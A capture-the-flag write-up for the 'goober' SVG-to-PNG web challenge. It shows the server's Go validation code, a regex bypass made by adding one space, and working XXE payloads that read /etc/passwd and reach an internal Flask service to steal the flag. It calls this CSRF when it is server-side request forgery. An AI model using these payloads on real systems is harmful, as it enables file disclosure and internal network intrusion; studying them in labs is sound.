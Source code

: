 # goober (v0rtex)
> Javascript has built-in functionality to convert SVGs to PNGs. But Javascript is slow. You know what's fast! Golang! I created goober, the world's first online SVG to PNG converter written in Go.

![welcome page of the challenge website](welcome.png)

## Exploration
We can diagram the web challenge like the following

```mermaid
flowchart TD
    subgraph Internet
        user[User/Attacker]
    end
    subgraph Server
        go[Go server] --> validation(validation) --> image(ImageMagick convert)
        flask[Flask internal server]
    end
    user -->|upload some file| go
```

In `internal/app.py` there is a very simple Flask server which is not connected to the outside internet, and which reads the flag.
```python
from flask import Flask, request
import os
from dotenv import load_dotenv

load_dotenv()

flag = os.getenv("FLAG")

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    return "<p>Whoa! You must be someone important </p>"

@app.route("/flag", methods=["GET"])
def get_flag():
    print(request.remote_addr, " Sent flag")
    return f"Here's your flag: {flag}"
```

We need to somehow upload a file which will make a request while the server is processing it, and send us back the flag. This is known as Cross Site Request Forgery (CSRF) because we are making the server make our own request. Lets take a look at some of the validation steps that the server is doing.

```go
func parseForm(req *http.Request) ([]byte, error) {
	err := req.ParseMultipartForm(1024 * 1024) // no svg should be over a 1mb imo

	if err != nil {
		return nil, err
	}

	var buf bytes.Buffer

	file, _, err := req.FormFile("svgfile")

	if err != nil {
		return nil, err
	}

	defer file.Close()

	io.Copy(&buf, file)

	contents := buf.String()

	// remove custom doctype, dtd
	reg := regexp.MustCompile(`<!DOCTYPE[^>[]*(\[[^]]*\])?>`)
	contentSafe := reg.ReplaceAllString(contents, "")

	return []byte(contentSafe), nil
}

func validateSVG(input []byte) ([]byte, error) {
	data, err := libxml2.Parse(input, parser.Option(2))

	if err != nil {
		return nil, err
	}

	defer data.Free()

	// xsd won't play nicely with svgs :(
	// ensure that root has name svg
	root, err := data.DocumentElement()

	if err != nil || !root.HasChildNodes() {
		log.Println(err)
		return nil, errors.New("invalid document format - no child nodes")
	}

	if strings.ToLower(root.NodeName()) != "svg" {
		return nil, errors.New("invalid document format - missing svg node")
	}

	return []byte(root.String()), nil
}

func (c *Converter) svgToPng(input []byte) ([]byte, error) {
	infile, err := ioutil.TempFile("/tmp", "temp-*.svg")

	if err != nil {
		return nil, err
	}

	defer os.Remove(infile.Name())

	infile.Write(input)

	ofile, err := ioutil.TempFile("/tmp", "temp-*.png")
	if err != nil {
		return nil, err
	}

	defer os.Remove(ofile.Name())

	imagick.Initialize()
	defer imagick.Terminate()
	mw := imagick.NewMagickWand()
	defer mw.Destroy()

	_, err = c.cmd([]string{
		"convert",
		"-background", "none",
		"-density", "1000",
		"-resize", "1000x",
		infile.Name(),
		ofile.Name(),
	})

	if err != nil {
		return nil, err
	}

	ret, err := os.ReadFile(ofile.Name())

	if err != nil {
		return nil, err
	}

	return ret, nil
}
```

In essence it passes through these steps
1. The uploaded file cannot be larger than 1mb
2. Remove all text which matches the regex `<!DOCTYPE[^>[]*(\[[^]]*\])?>`
3. Parse the file as XML and ensure it has an `<svg>` root tag

Now that we have our constraints, we can begin to craft a payload.

## Exploit
From prior knowledge, we know that SVGs are just XML, so lets begin crafting an svg and start coming up with ways to make network requests inside of an SVG.

How about an image?
```xml
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
	<image href="https://developer.mozilla.org/en-US/docs/Web/SVG/Element/image/mdn_logo_only_color.png" height="200" width="200" />
</svg>
```
![result of uploaded svg xml](get.png)

Great! The fact that this image was rendered successfully means that our crafted SVG successfully made a network request on the server, to another server (mozilla.org). Now that we can do that, we just need to make a request to `http://goober-internal:5001/flag` inside our SVG to get the flag. However, this doesn't work, because we need the request to send back an image, and not just text. To continue we are going to have to look at another one of the constraints.

But why does the server remove `<!DOCTYPE[^>[]*(\[[^]]*\])?>` from our upload? It looks like the beginning of an html document...but we are uploading an SVG. They're both kinda XML I guess? [Lets look it up](https://www.google.com/search?q=%3C%21DOCTYPE%3E+xml+vulnerability). We immediately find out about XML External Entity (XXE) attacks, and how we can use them. Here's an example payload:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
	<text x="0" y="100" font-size="8">&xxe;</text>
</svg>
```

We define an entity `xxe` basically as a variable in our SVG which evaluates to the result of `file:///etc/passwd`. So I guess this is why the server removes it. Thanks for pointing us in the right direction though! Regex is really hard, and a terrible idea for security and validation. If there is a regex validating something, we can probably beat it. Lets put it into my favorite website ever, [regexr.com](https://regexr.com) (make sure to set the regex engine as PCRE instead of JavaScript), and see if we can beat it.

![regexr.com regular expression](regexr.png)

As long as the text is highlighted, it will be "removed" on the server. We need a `<!DOCTYPE>` tag which will parse as valid XML but is not detected by the regex. By playing around a bit, adding a single space at the end between the `]>` making it `] >`, will beat it.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]> // detected
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">] > // not detected
```

Lets make the final payload SVG, even making the request to the internal Flask server, and upload it.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://goober-internal:5001/flag"> ] >
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
	<text x="0" y="100" font-size="8">&xxe;</text>
</svg>
```

![exploit svg uploaded, with flag displayed on screen](flag.png)
